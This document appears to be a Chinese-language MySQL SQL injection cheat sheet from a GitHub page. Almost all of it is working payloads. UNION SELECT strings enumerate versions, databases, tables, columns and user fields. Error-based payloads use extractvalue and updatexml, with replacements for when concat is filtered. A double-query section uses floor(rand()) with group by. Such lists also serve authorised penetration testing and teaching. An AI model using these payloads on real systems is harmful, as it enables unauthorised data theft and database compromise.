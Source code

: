```
and 1=2 union select version(),2,3
```
查询所有数据库

```
and 1=2 union select (select group_concat(schema_name)from information_schema.schemata),2,3
```
查询所有表名

```
union select (select group_concat(table_name)from information_schema.tables),2,3
#读当前数据库所有表名
union select (select group_concat(table_name)from information_schema.tables where table_schema=database()),2,3
```
查询所有字段名

```
union select (select group_concat(column_name)from information_schema.columns),2,3
#读当前数据，key表的所有字段名
union select (select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='key'),2,3
```
查询字段内容

```
#查询test库下users表的id及uname字段，用'~'区分id和uname以防字符连接到一起
union select(select group_concat(id,'~',uname)from test.users),2,3
```
#### 报错注入
通用报错语句：（测试版本MySQL8.0.12，MySQL5.0，mariadb5.5版本下）

```
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
select * from test where id=1 and (extractvalue(1,concat('~',(select user()),'~')));
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
updatexml报错最多只能显示32位，有时需要搭配SUBSTR函数来使用
concat函数被过滤时可以尝试使用make_set、lpad、export_set等函数进行替换
select * from test where id=1 and (updatexml(1,make_set(3,0x7e,(select user()),0x7e),1));
select * from test where id=1 and updatexml(1,lpad('@',30,(select user())),1);
select * from test where id=1 and updatexml(1,repeat((select user()),2),1);
select * from test where id=1 and updatexml(1,export_set(1|2,'::',(select user())),1);
select * from test where id=1 and updatexml(1,reverse((select user())),1);
```
#### 双查询注入
双注入查询需要理解四个函数/语句
1. Rand() //随机函数
2. Floor() //取整函数
3. Count() //汇总函数
4. Group by clause //分组语句

```
# 使用聚合函数进行双注入查询时，会在错误信息中显示一部分错误信息
# 构造双查询，比如派生表，使一个报错，另一个的结果就会出现在报错的信息中
select count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a;
select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a;
select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a)x;
```
